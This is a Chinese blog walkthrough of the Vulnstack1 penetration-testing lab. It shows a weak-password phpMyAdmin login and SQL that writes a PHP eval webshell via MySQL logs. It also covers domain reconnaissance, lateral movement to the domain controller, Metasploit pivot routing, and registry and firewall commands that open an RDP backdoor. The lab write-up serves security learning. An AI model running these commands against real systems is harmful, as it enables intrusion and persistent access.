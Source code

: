 ```yaml
---
typora-root-url: ../../../static
title: "vulnstack1笔记"
date: 2021-05-26T00:28:36+08:00
draft: false
tags: ["note"]
categories: ["security"]
---
```


## 网络环境
模拟黑盒环境，所以只知道内网win7的公网ip，拓扑图如下图所示：

![靶场网络拓扑][p1]

## 边界打点
首先需要拿下对外开放服务的win7，已知其公网ip为192.168.0.107，直接nmap扫描一下：

![nmap扫描结果][p2]

发现开放了80、3306端口(下面的3389是我留的rdp后门，一开始是没有的)，那么接下来可以通过80的WEB服务入侵，也可以爆破登录试试3306端口的mysql；下面首先访问下网站：

![访问网站][p3]

打开发现是一个phpstudy的探针界面，比较有用的信息有靶机的物理路径以及phpstudy的版本信息。接下来直接使用phpstudy的nday尝试攻击，最终失败了。那么接下来扫一下目录：

![目录扫描][p4]

扫到了phpmyadmin，于是访问试试，尝试弱口令爆破进入：

![phpmyadmin][p5]

![phpmyadmin][p6]

进入phpmyadmin了，然后直接开放root的远程登录权限（因为phpmyadmin太卡了）：

![phpmyadmin][p7]

因为是root权限，且前面通过探针得到了网站的物理路径，那么我们就可以通过mysql的日志写一句话木马拿到webshell，直接执行如下SQL语句：

	set global general_log = on;
	set global general_log_file='C:/phpStudy/WWW/caidao.php';
	SELECT "<?php @eval($_POST['shell']);?>";

然后用菜刀连接写入的webshell：

![菜刀连接][p8]

## 内网渗透
通过菜刀发现了服务器上还运行了一个cms，所以其实还可以通过这个cms拿webshell，但是现在已经拿到了，就不继续了。我们直接通过菜刀把shell传到CS上：

![CS上线][p9]

发现上线的win7是administrator权限，这个权限已经很高了，基本可以满足，也可以通过ms14-058提权到system。接下来就是基本的信息收集了：

首先whoami，发现是god\Administrator：

![whoami][p10]

然后通过ipconfig看看是否存在域：

![是否存在域][p11]

![是否存在域][p12]

初看，是存在域的，域名为 `god.org` ,一般DSN服务器就是域控，我们nslookup一下域名，看看ip是不是上面的 `192.168.52.138` ：

![查找域控][p13]

然后我们查看一下域内存活机器，使用ICMP扫描一下：

	for /l %i in (1,1,255) do @ping 192.168.52.%i -w 1 -n 1|find /i "ttl="

结果如下所示：

![域内存活主机][p14]

整理下目前的已知信息：

- 存在域：god.org；
- 域控：192.168.52.138；
- win7跳板机：内网ip为192.168.52.143，当前登录身份为域管（god\Administrator）;
- 域内其余存活主机：192.168.52.141；

现在先准备快速的横向，既然是域管权限，那么我们直接尝试使用当前身份远程登录域控：

![拿下域控][p15]

如法炮制，拿下域内另一台机器：

![拿下另一条机器][p16]

当然，还可以使用其他方式横向，本靶场可以使用的方法还有：

- ms17-010；
- ms14-068;
- PTH和PTT；

使用MSF进行ms17-010攻击的时候，需要将MSF带入内网，CS把Shell外联到MSF后，MSF需要在meterpreter下进行如下设置，方可穿透内网：

	# 获取当前shell的子网
	run get_local_subnets
	# 设置MSF的路由
	run autoroute -s 192.168.52.0/24
	# 将当前meterpreter放入后台
	background
	# 打印下当前MSF的路由
	route print

然后就是直接用MSF扫ms17-010了。现在一个问题是，内网的两台机器是不出网的，怎么拿shell？那么肯定不可以反弹shell了，因为不出网，所以只能正向连接shell；或者还有一种方法，在CS中选择跳板机，右键，如下所示：

![piovting][p17]

然后就可以在跳板机上开一个监听，将shell反弹到跳板机上即可；此外，就是关于开启RDP的一些步骤，如下所示：

	# 查看是否开启RDP，1表示关闭，0表示开启
	REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
	# 依次执行以下两条命令
	REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
	REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f
	# 在靶机中创建如下test.reg
	Windows Registry Editor Version 5.00
	[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
	"fDenyTSConnections"=dword:00000000
	[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
	"PortNumber"=dword:00000d3d
	# 执行如下命令，导入上面的注册表信息
	regedit /s test.reg
	# 防火墙放行3389端口
	netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
	
	




[p1]:/media/2021-05-26-1.png
[p2]:/media/2021-05-26-5.png
[p3]:/media/2021-05-26-2.png
[p4]:/media/2021-05-26-3.png
[p5]:/media/2021-05-26-4.png
[p6]:/media/2021-05-26-6.png
[p7]:/media/2021-05-26-7.png
[p8]:/media/2021-05-26-8.png
[p9]:/media/2021-05-26-9.png
[p10]:/media/2021-05-26-10.png
[p11]:/media/2021-05-26-11.png
[p12]:/media/2021-05-26-12.png
[p13]:/media/2021-05-26-13.png
[p14]:/media/2021-05-26-14.png
[p15]:/media/2021-05-26-15.png
[p16]:/media/2021-05-26-16.png
[p17]:/media/2021-05-26-17.png







